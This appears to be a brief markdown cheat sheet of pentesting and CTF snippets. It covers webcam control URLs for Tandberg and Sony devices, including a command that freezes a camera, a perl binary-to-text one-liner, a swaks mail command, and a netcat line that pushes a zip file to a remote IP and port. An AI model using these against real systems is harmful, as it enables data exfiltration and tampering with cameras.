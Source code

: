 ### Trandberg brand

```text
http://ip/snapctrl.ssi
```

### Sony webcam brand

```text
http:// ip /commard/visca-gen.cgi?visca=str
8101046202FF : Freeze Camera
```

## Convert binary to ski with perl

```text
cat blue | perl -lpe '$_=pack"B*",$_' > bin
```

## Review and implementation laboratory

```text
https://htbmachines.github.io/
```

## send mail

```text
swaks --to receiver@mail.dev --from from@mail.dev --server mail.server.dev --body "BODY"
```


## Sending the current file by nc

```text
nc 10.10.10.10 3131 < output.zip
```




{% include links.html %}
